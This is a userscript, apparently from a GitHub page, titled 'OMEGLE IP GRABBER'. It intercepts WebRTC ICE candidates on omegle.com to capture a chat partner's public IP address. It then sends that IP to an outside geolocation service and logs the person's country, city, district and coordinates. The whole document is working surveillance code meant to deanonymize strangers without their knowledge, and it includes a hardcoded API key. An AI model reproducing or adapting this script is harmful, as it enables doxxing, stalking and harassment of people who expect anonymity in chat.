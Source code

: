// ==UserScript==
// @name         OMEGLE IP GRABBER
// @version      1
// @author       dclightningtv
// @match        https://www.omegle.com/*
// @icon         https://www.google.com/s2/favicons?domain=omegle.com
// @grant        none
// ==/UserScript==

(function() {
    'use strict';

const apiKey = "9bbaca38ecd64f3082475f865fc90097";

window.oRTCPeerConnection =
    window.oRTCPeerConnection || window.RTCPeerConnection;

window.RTCPeerConnection = function (...args) {
    const pc = new window.oRTCPeerConnection(...args);

    pc.oaddIceCandidate = pc.addIceCandidate

    pc.addIceCandidate = function(iceCandidate, ...rest) {
        const fields = iceCandidate.candidate.split(" ");
        const ip = fields[4];
        if (fields[7] === "srflx") {
            getLocation(ip);
        }
        return pc.oaddIceCandidate(iceCandidate, ...rest)
    };
    return pc;
};

const getLocation = async (ip) => {
    let url = `https://api.ipgeolocation.io/ipgeo?apiKey=${apiKey}&ip=${ip}`;

    await fetch(url).then((response) =>
        response.json().then((json) => {
            const output = `
        -----------------------
        Country: ${json.country_name}
        State: ${json.state_prov}
        City: ${json.city}
        IP: ${json.ip}
        District: ${json.district}
        Lat / Long: (${json.latitude}, ${json.longitude})
        -----------------------
        `;
            console.log(output)
        })
    );
}
})();

